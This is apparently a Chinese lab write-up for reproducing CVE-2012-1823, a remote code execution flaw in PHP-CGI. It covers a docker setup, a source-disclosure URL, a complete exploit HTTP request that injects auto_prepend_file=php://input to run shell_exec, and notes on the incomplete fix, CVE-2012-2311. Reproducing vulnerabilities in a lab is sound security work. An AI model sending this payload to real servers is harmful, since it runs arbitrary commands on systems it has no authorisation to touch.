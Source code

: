 # PHP-CGI 远程代码执行漏洞（CVE-2012-1823）

PHP-CGI 是一个 SAPI（服务器应用程序编程接口）实现，用于使 PHP 与 Web 服务器进行通信。PHP-CGI 中的一个漏洞允许攻击者通过查询字符串向 PHP 传递命令行参数，从而可能导致远程代码执行。

影响版本：PHP < 5.3.12 或 PHP < 5.4.2

参考链接：

- <http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/>
- <https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html>

## 环境搭建

执行如下命令启动一个使用 PHP-CGI 5.4.1 的 Web 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 可以看到 "Hello" 字样。

## 漏洞复现

访问 `http://your-ip:8080/index.php?-s` 即可显示源代码，说明漏洞存在。发送如下数据包可执行任意 PHP 代码：

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## 技术细节

### PHP SAPI 与运行模式

PHP-CGI 可以在两种模式下运行：
1. CGI 模式：Web 服务器为每个请求创建一个新进程
2. FastCGI 模式：一个持久进程处理多个请求

根据 RFC3875 规定，当查询字符串中不包含未编码的 `=` 字符时，应该将其作为 CGI 参数传入。Apache 实现了这个要求，但 PHP 没有正确处理这种情况，导致了这个漏洞。

最简单的利用方式是使用 `-s` 参数来显示源代码：

![](1.png)

一个更强大的方法是使用 `-d` 指定 `auto_prepend_file`，从而创建任意文件包含漏洞：

![](2.png)

注意：空格需要用 `+` 或 `%20` 代替，`=` 字符需要进行 URL 编码。

### CVE-2012-2311 - 不完整的修复

PHP 最初在 5.4.2 和 5.3.12 版本中通过检查查询字符串开头的 `-` 字符来修复这个漏洞。但这个修复是不完整的，当 PHP-CGI 被包装在 shell 脚本中时可以被绕过（CVE-2012-2311）：

```sh
#!/bin/sh
exec /usr/local/bin/php-cgi $*
```

通过在 `-` 前添加空白字符，攻击者仍然可以传递参数，因为第一个字符是空格而不是 `-`。

PHP 在 5.4.3 和 5.3.13 版本中通过在检查 `-` 字符之前跳过所有前导空白字符来解决了这个问题。
